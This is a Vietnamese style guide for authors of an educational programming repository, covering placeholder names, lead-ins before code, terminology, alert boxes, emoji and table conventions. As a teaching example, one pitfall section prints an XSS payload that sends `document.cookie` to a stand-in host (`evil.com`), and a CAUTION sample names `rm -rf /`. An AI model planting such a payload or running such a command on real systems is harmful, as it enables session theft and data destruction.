**Username / hostname trong ví dụ shell/Linux**: KHÔNG dùng tên riêng `rom`, `long`, `mai`, `hung`, ... kể cả lowercase. Dùng **generic role**:

| Tình huống | ✅ Dùng | ❌ Tránh |
|---|---|---|
| User home folder ví dụ | `/home/user/`, `/Users/user/` | `/home/rom/`, `/Users/long/` |
| `ls -l` output | `-rw-r--r-- 1 user admin ...` | `-rw-r--r-- 1 rom admin ...` |
| SSH config | `AllowUsers admin deploy` | `AllowUsers rom long` |
| `chown` ví dụ | `chown user file.txt` | `chown rom file.txt` |
| Commit author email | `dev@acmeshop.vn` | `rom@laptop` |
| Hostname trong prompt | `user@laptop`, `dev@server` | `rom@macbook` |

→ Cụ thể allowed: `user`, `admin`, `dev`, `deploy`, `app`, `ops`, `bạn` (Vietnamese). Hostname: `laptop`, `server`, `workstation`, `vps`.

#### Code sample cần phân biệt nhiều "người" — ưu tiên placeholder, linh hoạt theo ngữ cảnh

Khi viết SQL INSERT, Python dict, React props, JSON output cần nhiều "user" để demo (join, filter, list, ...), **ưu tiên** placeholder convention dưới đây. Tên riêng (Alice/Bob/Mai/...) dùng được nếu ví dụ ngắn 1-2 lần và không lan truyền cross-lesson, nhưng **không phải lựa chọn ưu tiên**.

**Placeholder recommended** — 7 placeholder dùng xuyên repo cho data dài:

| Index | Placeholder dài (code sample) | Placeholder ngắn (narrative) |
|---|---|---|
| 1 | `Nguyen Van A` | `bạn A` |
| 2 | `Le Van B` | `bạn B` |
| 3 | `Tran Van C` | `bạn C` |
| 4 | `Pham Van D` | `bạn D` |
| 5 | `Hoang Van E` | `bạn E` |
| 6 | `Vu Van F` | `bạn F` |
| 7 | `Bui Van G` | `bạn G` |

**Lý do "Nguyen Van A" style là default ưu tiên**:
- Quy ước Việt Nam cho **placeholder name** (tương đương "John Doe" tiếng Anh) — reader Việt nhận ra ngay là placeholder, không phải người thật.
- Không gây liên tưởng cá nhân — không như "Long"/"Mai" có thể trùng người quen.
- 7 họ phổ biến VN (Nguyễn / Lê / Trần / Phạm / Hoàng / Vũ / Bùi) + A/B/C/D/E/F/G — đủ cho mọi code sample SQL multi-row.
- Viết **không dấu** trong code (`Nguyen Van A` thay vì `Nguyễn Văn A`) để tránh issue encoding. Diacritics chỉ trong narrative.

**Linh hoạt theo ngữ cảnh — không ép**:
- Code sample SQL INSERT multi-row → khuyến nghị `Nguyen Van A`/`Le Van B`/...
- Ví dụ 1-2 dòng minh hoạt syntax (`name = "Alice"`) → tên riêng OK nếu không lạm dụng.
- Tài liệu kỹ thuật chuẩn (cryptography "Alice ↔ Bob", networking "Host A ↔ Host B") → giữ convention gốc, không Việt hoá ép.
- Story arc xuyên cluster → tránh fictional character (Long/Mai) — vì sẽ phải bulk-replace nếu rename.

**Áp dụng (preferred — không ép)**:

| Tình huống | ✅ Preferred | ⚠️ Hạn chế |
|---|---|---|
| SQL INSERT multi-row | `(1, 'Nguyen Van A', 'Hanoi'), (2, 'Le Van B', 'Saigon')` | `(1, 'Alice'), (2, 'Bob')` (OK ngắn nhưng đừng lạm dụng cross-lesson) |
| Python dict/f-string | `name = "Nguyen Van A"` | `name = "Alice"` (OK 1-2 lần) |
| JSON API response | `{"id": 1, "name": "Nguyen Van A"}` | `{"id": 1, "name": "Bob"}` |
| React JSX props | `<UserCard name="Nguyen Van A" />` | `<UserCard name="Mai" />` (Mai = fictional VN, nên tránh) |
| Narrative ("ai làm gì") | `"Bạn A push code, bạn B review"` | `"Long push, Mai review"` (fictional character cross-lesson) |
| Email placeholder | `nguyenvana@acmeshop.vn` | `alice@example.com` |
| Cryptography convention | `Alice gửi message cho Bob` (giữ convention) | Việt hoá ép thành "bạn A gửi cho bạn B" |

**Khi nào dùng `bạn A`/`bạn B` vs `Nguyen Van A`/`Le Van B`**:
- **Code/data context** (SQL row, JSON, dict value): dạng dài `Nguyen Van A` — nhìn realistic như user data.
- **Narrative tiếng Việt** ("Sếp gửi bạn A vào team"): dạng ngắn `bạn A` — đọc tự nhiên.
- **Table output cần alignment**: chấp nhận adjust column width, hoặc dùng dạng ngắn cho output blocks.

### 3.6 Anti-pattern: Header → Code ngay (CẤM)

**Quy tắc**: Cấm pattern "header rồi show code/bảng/list **ngay**". Mỗi code block / bảng / list phải có **lead-in tiếng Việt 2-3 câu** giải thích "vì sao cần", "code này làm gì", "kết quả mong đợi" — sau code/bảng có **câu phân tích** kết quả + dẫn sang section kế.

#### ❌ Anti-pattern (cấm)

```markdown
### Parameters tuning

​```python
from argon2 import PasswordHasher
ph = PasswordHasher(
    time_cost=3,
    memory_cost=65536,
    parallelism=4,
)
​```

### Choose parameters

| Profile | time_cost | memory_cost |
|---|---|---|
| Server modest | 3 | 65536 |
| Server modern | 4 | 131072 |
```

→ Người mới đọc xong **không hiểu**: vì sao 3 và 65536? Tune để làm gì? Khi nào đổi? Profile "modest" với "modern" khác nhau ở đâu?

#### ✅ Pattern đúng

```markdown
### Tune tham số Argon2

3 tham số trên không phải số ma thuật — chúng kiểm soát **đánh đổi giữa thời gian hash và độ khó bẻ khoá**:

- `time_cost` — số vòng lặp băm. Càng cao càng chậm crack, nhưng cũng chậm login.
- `memory_cost` — bộ nhớ tiêu thụ (KiB). Cao = chống GPU mạnh (GPU ít RAM hơn CPU).
- `parallelism` — số *thread* (luồng) chạy song song. Phụ thuộc CPU.

Mục tiêu: ~500ms mỗi lần hash trên server thật. Quá nhanh = không an toàn. Quá chậm = user chờ.

​```python
from argon2 import PasswordHasher

ph = PasswordHasher(
    time_cost=3,         # 3 vòng lặp băm
    memory_cost=65536,   # 64 MiB bộ nhớ — chống GPU brute-force
    parallelism=4,       # dùng 4 luồng CPU
)
​```

Code trên là **baseline 2026** cho server 4 vCPU. Sau khi setup, test bằng `time ph.hash("test")` — nếu < 200ms tăng `memory_cost`, nếu > 1s giảm. Bảng dưới là 4 profile phổ biến để tham khảo:

| Profile máy chủ | `time_cost` | `memory_cost` | `parallelism` | Thời gian hash |
|---|---|---|---|---|
| Máy ảo nhỏ (2 vCPU, 4 GB) | 3 | 65536 (64 MiB) | 4 | ~0.3-0.5s |
| Server hiện đại (4-8 vCPU) | 4 | 131072 (128 MiB) | 4-8 | ~0.5-1s |
| Bảo mật cao (admin, banking) | 5 | 262144 (256 MiB) | 8 | 1-2s |
| Mobile / edge (Raspberry Pi) | 2 | 32768 (32 MiB) | 2 | ~0.2s |

→ Acme Shop production chạy trên 4 vCPU AWS t3.medium → pick profile thứ 2.
```

#### Quy tắc cụ thể

| Trước code/bảng/list | Sau code/bảng/list |
|---|---|
| 2-3 câu giải thích **vì sao** code này tồn tại | 1-2 câu **phân tích kết quả** hoặc **kết nối ý** sang section kế |
| Đặt **ngữ cảnh** (khi nào dùng, dùng cho ai) | Output mẫu (nếu là lệnh) |
| Nói trước **expect kết quả gì** | Dẫn sang câu hỏi/section tiếp theo |

**Áp dụng cho**:
- Mọi code block (Python, bash, YAML, JSON, ...)
- Mọi bảng (table) — không đứng cô đơn
- Mọi list bullet liệt kê concept — phải có 1 câu intro giới thiệu nhóm

**Exception**: Code block trong section "⚡ Cheatsheet" hoặc "📚 Glossary" được phép đứng cô đơn (vì format tra cứu, không phải dạy).

### 3.7 Vietnamese-first principle

**Quy tắc**: Repo này phục vụ **người Việt zero-base**. Mặc định viết tiếng Việt; English chỉ dùng cho thuật ngữ không có equivalent VN hoặc tên riêng.

#### Cụ thể

| Vị trí | Mặc định | Khi nào dùng EN |
|---|---|---|
| Heading H1-H6 | Tiếng Việt | Brand name (Docker, K8s, FastAPI), thuật ngữ đã quá quen (HTTP, API) |
| Câu giải thích / phân tích | Tiếng Việt 100% | Cite từ doc gốc (block quote EN OK) |
| Bullet liệt kê concept | Tiếng Việt | EN trong ngoặc kèm VN — `"khả năng phục hồi (resilience)"` |
| Comments code | **Tiếng Việt** | EN ngắn cho lệnh đơn giản (vd `# install`) |
| Tên biến/hàm/file | English | Always (convention coding) |
| Bảng cột "Khi nào dùng" | Tiếng Việt | "Modest server" → "Máy ảo nhỏ"; "Modern" → "Hiện đại" |
| Profile / category name | Việt hoá khi có thể | "Bảo mật cao" thay "High security" |

#### Quy tắc thuật ngữ EN

Thuật ngữ EN xuất hiện **lần đầu** trong bài → phải có **format 3 phần**:

```markdown
[Thuật ngữ EN, in nghiêng] ([dịch VN]) — [giải thích 1 câu]
```

Ví dụ:
- ❌ "Side-channel attack vulnerable" → reader không biết là gì
- ✅ "*Side-channel attack* (tấn công kênh phụ) — kẻ tấn công đoán giá trị bí mật qua đo thời gian/điện năng tiêu thụ, không cần phá mã trực tiếp"

Sau lần đầu, có thể dùng EN không cần dịch lại.

#### Bảng EN-only — CẤM

❌ **Tránh** — bảng toàn EN không có VN:
```
| Profile | Type | Use case |
|---|---|---|
| Modest | Small | Dev |
| Modern | Mid | Prod |
```

✅ **Đúng** — cột tiêu đề + giá trị Việt hoá khi có thể:
```
| Cấp độ | Loại máy | Khi dùng |
|---|---|---|
| Modest (cơ bản) | Máy ảo nhỏ 2 vCPU | Dev/test |
| Modern (hiện đại) | Server 4-8 vCPU | Production trung bình |
```

#### Comments trong code — VN là default

❌ **Tránh**:
```python
ph = PasswordHasher(
    time_cost=3,        # iterations
    memory_cost=65536,  # KiB (64 MiB)
    parallelism=4,      # threads
)
```

✅ **Đúng**:
```python
ph = PasswordHasher(
    time_cost=3,        # 3 vòng lặp băm (càng cao càng chậm crack)
    memory_cost=65536,  # 64 MiB bộ nhớ — chống GPU brute-force
    parallelism=4,      # số luồng song song
)
```

→ EN ngắn vẫn OK cho lệnh quá quen (`# install`, `# verify`). Nhưng **mọi comment giải thích logic** → tiếng Việt.

### 3.8 Comments code đánh số bước (`# 1.`, `# 2.`, `# 3.`)

Khi code có nhiều bước logic, comments **đánh số rõ ràng** để người mới follow từng bước dễ hơn.

❌ **Tránh** — comments rời rạc, không có thứ tự rõ:
```python
async def lay_user(user_id: int) -> User:
    cache_key = f"user:{user_id}"
    cached = await redis.get(cache_key)  # check cache
    if cached:
        return User.model_validate_json(cached)
    user = await db.execute(select(User).where(User.id == user_id))  # query db
    await redis.setex(cache_key, 3600, user.model_dump_json())  # save cache
    return user
```

✅ **Đúng** — đánh số bước rõ:
```python
async def lay_user(user_id: int) -> User:
    cache_key = f"user:{user_id}"

    # 1. Kiểm tra cache trước (Redis)
    cached = await redis.get(cache_key)
    if cached:
        return User.model_validate_json(cached)

    # 2. Cache MISS — query database lấy user
    user = await db.execute(select(User).where(User.id == user_id))

    # 3. Lưu vào cache cho lần gọi sau (TTL 1 giờ)
    await redis.setex(cache_key, 3600, user.model_dump_json())

    return user
```

→ Người mới đọc thấy "À, hàm này có 3 bước rõ ràng" thay vì "code đầy comment chữ rời".

**Khi nào áp dụng**:
- Hàm > 5 dòng có logic theo trình tự
- Hands-on hướng dẫn người mới
- Code có flow chứa branching (if/else, try/except)

**Khi nào skip**:
- Lệnh đơn lẻ (`pip install foo`)
- Đoạn config (YAML, JSON) — đánh số làm rối
- Code Cheatsheet (mục đích là tra cứu, không phải dạy)

### 3.9 Mở bài bằng vấn đề thực tế relatable

Mọi bài/section dạy concept mới **phải bắt đầu bằng tình huống cụ thể người đọc đã từng/sẽ gặp** — không phải định nghĩa khô.

#### Pattern 1 — "Bạn đã bao giờ gặp..."

```markdown
## Tại sao cần học encoding?

Bạn đã bao giờ gặp:
- Mở file thấy `Xin chà o` thay vì `Xin chào`?
- Email gửi đi bị lỗi ký tự tiếng Việt?
- Database lưu emoji 💀 thành `????`?

Tất cả do **encoding không đúng**. Hiểu encoding = hết lỗi ký tự.
```

→ Mỗi gạch đầu dòng là vấn đề **người đọc tự đã trải qua**. Họ nhận ra "À, mình từng gặp" → mở khoá động lực học.

#### Pattern 2 — Tình huống đời thường

```markdown
## Tại sao cần Async?

Hãy tưởng tượng bạn đang nấu ăn:

❌ Đồng bộ:
  Luộc trứng (10p) → CHỜ XONG → Chiên rau (5p) → CHỜ XONG → Nấu cơm (20p)
  Tổng: 35 phút 😫

✅ Bất đồng bộ:
  Luộc trứng (10p) ┐
  Chiên rau (5p)   ├─ làm song song
  Nấu cơm (20p)    ┘
  Tổng: 20 phút 🚀
```

→ Concept lập trình trừu tượng → so sánh với nấu ăn (ai cũng biết). Sau khi hiểu metaphor mới đến code.

#### Pattern 3 — Câu chuyện sự cố

```markdown
## Tại sao cần MFA?

Tháng trước, 1 công ty bán lẻ Việt Nam bị hack DB. Hacker thấy cột password_hash:
  e10adc3949ba59abbe56e057f20f883e

Đây là MD5 của "123456". Mất 0.3 giây để tra ngược. 90% user mất tài khoản.

→ Vì thế cần MFA (xác thực 2 lớp) — dù mật khẩu lộ, hacker vẫn cần thêm "vật bạn cầm".
```

→ Sự cố thật → tự nhiên dẫn vào WHY cần học.

**Quy tắc**:
- Mở bài / section concept mới = 1 trong 3 pattern trên (relatable problem / đời thường / sự cố thật)
- **KHÔNG** mở bằng "X là Y, một loại Z..." (định nghĩa khô)
- Sau tình huống → câu nối → định nghĩa
- Tình huống nên có **con số/chi tiết cụ thể** (10 phút, 35 phút, $4.5M; không phải "rất lâu", "rất nhiều")

### 3.10 Ẩn dụ liên tục — không chỉ 1 lần ở định nghĩa

Ẩn dụ tốt **được dùng lại nhiều lần** trong bài để giữ mental model cho người đọc, không chỉ xuất hiện 1 lần ở đầu rồi biến mất.

#### Ví dụ — bài K8s

```markdown
## Pod là gì?

🪞 **Ẩn dụ**: Pod như **căn phòng** — 1-2 người (container) ở chung, chia sẻ wifi (network) + tủ đồ (volume).

## Service là gì?

Quay lại ẩn dụ chung cư: **căn phòng** (Pod) thì cố định địa chỉ, nhưng phòng có thể đóng/mở.
**Service** = **bảng số phòng ở quầy lễ tân** — khách (request) chỉ cần hỏi "phòng dịch vụ A ở đâu",
lễ tân tự điều phối, không cần biết phòng 503 hay 504 đang hoạt động.

## Volume là gì?

Trong **căn phòng** (Pod), **tủ đồ** (volume) có 2 loại:
- Tủ trong phòng (emptyDir) — phòng hủy thì đồ mất
- USB cắm vào phòng (persistent volume) — phòng hủy, USB còn đó

## Namespace là gì?

Ẩn dụ chung cư mở rộng: **tầng nhà** (namespace) — tầng 5 dành cho team A, tầng 6 dành cho team B.
Cùng số phòng (101) ở 2 tầng khác nhau là 2 phòng khác nhau.
```

→ Cùng 1 ẩn dụ "chung cư" được dùng xuyên 4 concept khác nhau. Người đọc giữ được mental model nhất quán, không phải "đổi não" mỗi section.

**Quy tắc**:
- Bài có ≥ 3 concept liên quan → chọn 1 ẩn dụ tổng (chung cư, nấu ăn, sân bay, ...) và mở rộng cho từng concept
- Nếu metaphor không mở rộng được → dùng ẩn dụ riêng cho concept đó, nhưng phải nhắc lại 1-2 lần trong section
- **KHÔNG** "ẩn dụ một-phát-cho-có" rồi viết xong section quên luôn

### 3.11 ✅❌ format cho so sánh — Anti-pattern vs Pattern

Khi dạy "đừng làm X, hãy làm Y", format **✅❌ block** giúp người mới scan nhanh, không cần đọc kỹ cả 2 đoạn.

#### Pattern

```markdown
### Pitfall: Cookie không có httpOnly

❌ **Anti-pattern** — JS đọc được cookie:
​```javascript
document.cookie = "session=abc123; path=/";
​```
→ XSS chèn `<script>fetch('evil.com?'+document.cookie)</script>` đọc được cookie ngay.

✅ **Pattern đúng** — server set httpOnly cookie:
​```python
response.set_cookie("session", token, httponly=True, secure=True, samesite="strict")
​```
→ JS không thấy được cookie. XSS không lấy được session.
```

→ Người đọc nhìn 1 lát: thấy ✅ là pattern đúng, ❌ là sai. Code có context VN ngắn giải thích "vì sao". Không cần đọc 3 đoạn paragraph.

**Khi áp dụng**:
- Pitfall section
- So sánh "approach cũ vs approach mới"
- Code anti-pattern vs pattern

**Khi không cần**:
- Concept chỉ có 1 cách đúng (không có anti-pattern)
- Tài liệu reference (cheatsheet, glossary)

### 3.12 Bảng trade-off thay paragraph tường thuật

Khi cần so sánh ≥ 3 option / có nhiều thuộc tính → dùng **bảng**, không viết paragraph "X có ưu điểm A, B, C; nhược điểm D, E, F; Y thì ngược lại...".

❌ **Tránh** — paragraph khó so sánh:
```markdown
PostgreSQL là RDBMS truyền thống, hỗ trợ ACID, có cộng đồng lớn và nhiều extension như PostGIS.
Nhược điểm là cấu hình phức tạp, scale ngang khó. MySQL cũng RDBMS nhưng đơn giản hơn, scale tốt
hơn với MyISAM/InnoDB, nhưng feature set kém phong phú hơn. MongoDB là NoSQL document store,
schema-less, scale ngang dễ, nhưng không có JOIN truyền thống, transaction giới hạn...
```

✅ **Dùng bảng**:
```markdown
| Đặc điểm | PostgreSQL | MySQL | MongoDB |
|---|---|---|---|
| Loại | RDBMS | RDBMS | NoSQL document |
| Schema | Strict | Strict | Schema-less |
| ACID | Đầy đủ | Đầy đủ | Giới hạn (1 doc) |
| Scale ngang | Khó | Tốt hơn | Dễ |
| Cộng đồng | Rất lớn | Rất lớn | Lớn |
| Khi chọn | Cần JOIN phức tạp, ACID | Web app traditional | Document, scale ngang |
```


### 3.13 💡 Quy chuẩn sử dụng Alert Boxes (GitHub Alerts)

Để làm nổi bật các ghi chú, mẹo, yêu cầu cốt lõi, cạm bẫy hoặc cảnh báo nguy hiểm — tránh cho bài viết bị "bình bình", đều đều — hãy sử dụng cú pháp **GitHub Markdown Alerts**. Điều này tạo điểm nhấn thị giác cực kỳ chuyên nghiệp và thu hút sự chú ý của người học ngay lập tức.

#### 5 Cấp độ Alert tiêu chuẩn

| Loại Alert | Cú pháp Markdown | Khi nào dùng |
|---|---|---|
| 🔵 **NOTE** (Ghi chú) | `> [!NOTE]` | Cung cấp thông tin nền tảng, ghi chú thú vị, ngữ cảnh lịch sử không ảnh hưởng trực tiếp tới lab |
| 🟢 **TIP** (Mẹo / Lối tắt) | `> [!TIP]` | Chia sẻ phím tắt (shortcut), mẹo tối ưu hiệu suất, cách làm nhanh, best practice hữu ích |
| 🟣 **IMPORTANT** (Yêu cầu cốt lõi) | `> [!IMPORTANT]` | Các bước bắt buộc, thông tin sống còn, trực tiếp quyết định sự thành bại của bài thực hành |
| 🟡 **WARNING** (Rủi ro / Cạm bẫy) | `> [!WARNING]` | Cảnh báo cạm bẫy phổ biến (pitfalls), các lỗi cấu hình sai dễ mắc, hoặc rủi ro mất an toàn thông tin |
| 🔴 **CAUTION** (Nguy hiểm cực độ) | `> [!CAUTION]` | Cảnh báo cực kỳ nguy hiểm, có thể gây sập hệ thống (prod downtime), mất dữ liệu vĩnh viễn |

#### Quy tắc viết Alert Box

1. **Phải có lead-in và ngữ cảnh**: Cấm quăng Alert box cô đơn mà không có câu dẫn trước đó. Phải giải thích ngữ cảnh rồi mới đưa ra Alert.
2. **Không lạm dụng**: Tối đa **2 Alert boxes** trong cùng 1 bài học (hoặc 1 step của project). Quá nhiều alert box sẽ làm loãng và gây mỏi mắt cho người học.
3. **Văn phong của Alert**: Phải cực kỳ súc tích, ngắn gọn (dưới 3 câu), đi thẳng vào vấn đề.

#### Ví dụ thực tế (tiếng Việt sinh động)

> [!NOTE]
> K8s ban đầu được Google phát triển nội bộ dưới tên dự án là **Borg** (hệ thống quản lý cụm máy tính khổng lồ của họ) trước khi đóng góp cho cộng đồng open source vào năm 2014.

> [!TIP]
> Bạn có thể cấu hình phím tắt tự động hoàn thành lệnh trong Terminal bằng cách thêm `source <(kubectl completion bash)` vào file `.bashrc`.

> [!IMPORTANT]
> Hãy chắc chắn rằng bạn đã khởi động Minikube bằng lệnh `minikube start` trước khi thực hiện bất kỳ lệnh `kubectl` nào tiếp theo.

> [!WARNING]
> Tuyệt đối không được commit file `.env` chứa API Key hoặc mật khẩu database thật lên GitHub public. Hãy luôn thêm nó vào `.gitignore`.

> [!CAUTION]
> Chạy lệnh `rm -rf /` trên container chạy quyền root sẽ ngay lập tức xóa sạch filesystem của container đó và làm sập ứng dụng.

#### ⚠️ Quy định nghiêm ngặt: Chỉ dùng đúng từ khóa và đúng ngữ cảnh

GitHub Markdown **chỉ hỗ trợ duy nhất 5 từ khóa** ở trên (`NOTE`, `TIP`, `IMPORTANT`, `WARNING`, `CAUTION`). Mọi từ khóa tự bịa khác (như `[!OUTPUT]`, `[!EXERCISE]`, v.v.) sẽ **không** được render và chỉ hiển thị dưới dạng blockquote thường.

Để giữ nguyên giá trị nhấn mạnh tối đa của Alert Box, chúng ta **chỉ sử dụng đúng 5 loại Alert Box này cho đúng tình huống nguyên bản của chúng** (như định nghĩa ở bảng trên). Tuyệt đối **không lạm dụng lung tung** (ví dụ: không dùng Alert Box để đóng gói đề bài thực hành dài, không dùng để hiển thị output của lệnh Terminal, hoặc giải thích code block thông thường). 

Đối với các phần như đề bài, giải thích code hay hiển thị output, hãy sử dụng định dạng Markdown truyền thống chuẩn mực, gọn gàng (như code block ` ```text `, checklist `- [ ]`, hoặc blockquote thường `> ` không có tiền tố Alert).

### 3.14 📊 Quy tắc tỷ lệ vàng 30-20-40-10 trong cấu trúc bài

Để đảm bảo bài học có chất lượng truyền tải cao nhất, cân bằng giữa lý thuyết và thực hành, tránh tình trạng bài viết quá khô khan hoặc ngược lại là chỉ "quăng code block" bắt người học tự hiểu, mọi bài học lý thuyết (`lessons/`) nên tuân thủ nghiêm ngặt **Quy tắc tỷ lệ vàng 30-20-40-10** về phân bổ nội dung:

| Phần | Tỷ lệ vàng | Mục đích | Cách thể hiện |
|---|---|---|---|
| **WHY** (Tại sao) | **30%** | Khơi gợi động lực học, làm rõ "không có nó thì khổ ra sao" | Mở đầu bằng tình huống relatable, câu chuyện sự cố, hoặc so sánh với cách làm cũ. |
| **WHAT** (Nó là gì) | **20%** | Định hình mental model vững chắc cho người học | Đưa ra định nghĩa kỹ thuật chuẩn, ẩn dụ (metaphor) trực quan, và diagram/sơ đồ kiến trúc. |
| **HOW** (Dùng thế nào) | **40%** | Hướng dẫn thực hành chi tiết, tay gõ mắt thấy | Code examples/lệnh chạy thực tế, có lead-in trước code và phân tích giải thích chi tiết sau code. |
| **WHEN** (Khi nào chọn) | **10%** | Nâng cao tư duy phản biện và đưa ra quyết định | Đưa ra bảng so sánh trade-off (ưu/nhược), các Gotchas (cạm bẫy) và khi nào dùng/không nên dùng. |

> [!NOTE]
> Con số tỷ lệ này không cần phải chính xác tuyệt đối ở mức đếm từng dòng chữ, mà là **kim chỉ nam để phân bổ trọng tâm**. Người viết bài cần tự đánh giá sau khi hoàn thành: nếu bài học có tới 90% là code block và không giải thích WHY/WHAT, bài viết đó vi phạm nghiêm trọng triết lý giáo dục của repo và sẽ bị từ chối phê duyệt.

### 3.15 🚫 De-meta — vùng cấm trong file học (lesson/exercise/recipe/project)

**Nguyên tắc**: File học là sản phẩm cho **người đọc cuối** — họ vào để học kiến thức kỹ thuật, KHÔNG phải để nghe kho tự nói về phương pháp biên soạn của mình. Mọi "ghi chú nội bộ" về cách viết, đối tượng phục vụ, hay quy trình sản xuất phải **ở lại trong Blueprint** (file này) — KHÔNG được rò rỉ (leak) vào thân bài học.

> [!IMPORTANT]
> Phân biệt 2 loại file:
> - **AUTHOR-FACING** (`_blueprint/0X_*.md` như file này): ĐƯỢC PHÉP bàn về phương pháp, đối tượng, triết lý — vì người đọc là người biên soạn.
> - **READER-FACING** (mọi file trong `lessons/`, `exercises/`, `recipes/`, `projects/`, kể cả `EXAMPLES/` và `templates/` mô phỏng file học): PHẢI sạch meta-leak theo bảng dưới.

#### Bảng vùng cấm — KHÔNG xuất hiện trong file học

| ❌ Cấm trong file học | Lý do | ✅ Viết thay thế |
|---|---|---|
| "Bài này viết bằng tiếng Việt / cho người Việt" | Người đọc đang đọc tiếng Việt rồi — thừa | Vào thẳng nội dung |
| "Phục vụ 4 nhóm đối tượng / zero-base / beginner-friendly" | Đó là tiêu chí biên soạn nội bộ | Viết đúng độ khó, không cần tuyên bố |
| "Theo phong cách Narrative / triết lý giáo dục của repo" | Meta về phương pháp | Cứ kể chuyện tự nhiên, không gọi tên kỹ thuật |
| "Áp dụng WHY/WHAT/HOW / tỷ lệ 30-20-40-10" | Tiêu chí review nội bộ | Nội dung tự cover, không nêu công thức |
| Nhắc "Mr.Rom" trong thân bài / code / summary / `<summary>` tag | Bài học không ký tên tác giả trong nội dung | Chỉ để `Mr.Rom` ở **field metadata** (Tác giả) |
| Link tới `_blueprint/`, `__Ref__/`, `templates/` | Đó là file nội bộ, người đọc không cần | Chỉ link bài học / roadmap / tài nguyên ngoài |
| "Bài này tuân khung 8 phần / dùng template X" | Meta về cấu trúc | Cấu trúc tự thể hiện, không tự mô tả |

#### Quy tắc cụ thể về "Mr.Rom"

| Vị trí | Cho phép? |
|---|---|
| Field `Tác giả:` trong metadata block-quote | ✅ Có — đây là attribution chuẩn |
| Thân bài, đoạn giải thích, lead-in | ❌ Không — viết "mình"/"ta" hoặc bỏ chủ ngữ |
| Comment trong code / output mẫu | ❌ Không |
| Phần tổng kết / summary cuối bài | ❌ Không |
| Trong `<summary>` của thẻ `<details>` | ❌ Không — dùng "Xem giải thích" (không "của Mr.Rom") |

> [!WARNING]
> Lỗi hay gặp nhất: dán "ghi chú cho chính mình" (kiểu *"Bài này dành cho người mới, viết theo phương pháp kể chuyện..."*) vào đầu file học. Đây là rò rỉ Blueprint. Người đọc cuối không cần biết — xoá sạch trước khi xuất bản.

---

## 4️⃣ Diagram & Visualization

### 4.1 Khi nào dùng diagram

| Tình huống | Diagram phù hợp |
|---|---|
| Quan hệ giữa các thành phần | Mermaid `graph TD` hoặc `graph LR` |
| Luồng theo thời gian / call sequence | Mermaid `sequenceDiagram` |
| Trạng thái và transition | Mermaid `stateDiagram-v2` |
| Cấu trúc folder / file | ASCII tree |
| Layout UI / kiến trúc đơn giản | ASCII box |
| Cấu trúc dữ liệu phức tạp | Image (PNG/SVG) trong `_assets/` |
| Screenshot UI | Image |

### 4.2 Mermaid (ưu tiên — render được trong markdown)

**Architecture / quan hệ**:

````markdown

````

**Sequence**:

````markdown

````

### 4.3 ASCII tree (cho folder/file)

```
my-project/
├── src/
│   ├── main.py
│   └── utils.py
├── tests/
└── README.md
```

### 4.4 ASCII box (kiến trúc đơn giản)

```
┌─────────┐    HTTP    ┌─────────┐    SQL    ┌──────────┐
│ Browser │ ─────────> │  API    │ ────────> │ Postgres │
└─────────┘            └─────────┘           └──────────┘
```

### 4.5 Image (khi mermaid/ASCII không đủ)

- Đặt trong `_assets/` ở cấp gần nhất (vd: `kubernetes/_assets/pod-lifecycle.png`)
- Hoặc dùng `_assets/` chung của repo nếu reuse nhiều L1
- Alt text **bắt buộc**: ``

---

## 5️⃣ Emoji — bộ chuẩn nhất quán

Dùng emoji **làm section marker nhất quán** — cùng emoji = cùng vai trò, không random.

### 5.1 Section emoji (đầu H2/H3)

| Emoji | Vai trò |
|---|---|
| 🎯 | Mục tiêu / câu dẫn |
| 📋 | Metadata / overview |
| 📖 | Lý thuyết / nội dung chính |
| 🛠️ | Hands-on / demo |
| 💡 | Pitfall / best practice / mẹo |
| 🧠 | Self-check / câu hỏi ôn |
| ⚡ | Cheatsheet / tra cứu nhanh |
| 📚 | Glossary / từ điển |
| 🔗 | Liên kết / tài nguyên |
| 🗺️ | Roadmap / sitemap |
| 🏗️ | Cấu trúc / kiến trúc |
| ✍️ | Chuẩn viết |
| ⚙️ | Setup / config |
| 🧪 | Exercise / thử nghiệm |
| 🎓 | Lesson / bài học |
| 🚀 | Quickstart / bắt đầu |
| 🤝 | Đóng góp / contribute |
| 📌 | Ghi chú / changelog |
| 🌟 | Highlight / điểm nổi bật |

### 5.2 Inline emoji (cảnh báo / dấu hiệu)

| Emoji | Vai trò |
|---|---|
| ✅ | OK / đúng / nên làm |
| ❌ | Không OK / sai / tránh |
| ⚠️ | Cảnh báo |
| 🟢🟡🔴 | Mức độ (xanh OK / vàng cẩn thận / đỏ nguy hiểm) |
| 🆕 | Mới |
| 🚧 | Đang xây dựng / WIP |
| ⏳ | Chưa hoàn thành / pending |
| 🔄 | Cần cập nhật / loop |
| 📦 | Thư mục |
| 📄 | File |
| 🐛 | Bug / lỗi |
| 🔥 | Hot / quan trọng |

> 📌 **Quy tắc**: Dùng nhất quán, KHÔNG random. Nếu thêm emoji mới → cập nhật bảng này.

---

## 6️⃣ Code blocks & syntax

### 6.1 Luôn kèm language hint

````markdown
```bash
ls -la
```

```python
print("hello")
```

```yaml
apiVersion: v1
kind: Pod
```
````

### 6.2 Tránh ellipsis trong code mẫu

❌ **Tránh**:
````markdown
```yaml
apiVersion: v1
kind: Pod
metadata:
  ...
spec:
  ...
```
````

✅ **Dùng**:
````markdown
```yaml
apiVersion: v1
kind: Pod
metadata:
  name: myapp-pod
  labels:
    app: myapp
spec:
  containers:
    - name: myapp
      image: nginx:1.25
```
````

### 6.3 Comment trong code

| Loại comment | Ngôn ngữ |
|---|---|
| Comment ngắn inline | EN |
| Block comment giải thích logic VN OK | VN |

Ví dụ:

```python
# Đếm số lượt truy cập tăng dần (atomic operation)
count = redis.incr('visit_count')
```

---

## 7️⃣ Bảng (Tables)

### 7.1 Khi nào dùng

| Tình huống | Bảng phù hợp |
|---|---|
| So sánh 2-N option | ✅ |
| List có nhiều thuộc tính / item | ✅ |
| Định nghĩa thuật ngữ | ✅ |
| Sequence các bước | ❌ — dùng numbered list |
| Mô tả workflow | ❌ — dùng diagram |

### 7.2 Format chuẩn

- Header dùng `**bold**` cho cột tiêu đề
- Căn lề: trái cho text, phải cho số/version
- Tối đa 5-6 cột — nhiều hơn thì cân nhắc bỏ cột hoặc transpose

---

## 8️⃣ Câu list (Lists)

| Tình huống | Loại list |
|---|---|
| Có thứ tự (sequence) | Numbered (`1.`, `2.`, ...) |
| Không thứ tự | Bullet (`-`) |
| Checklist (sự kiện rời) | Task (`- [ ]`) |

Nested list — tối đa 2 cấp. Nếu cần sâu hơn → tách section.

---

## 9️⃣ Liên kết (Links)

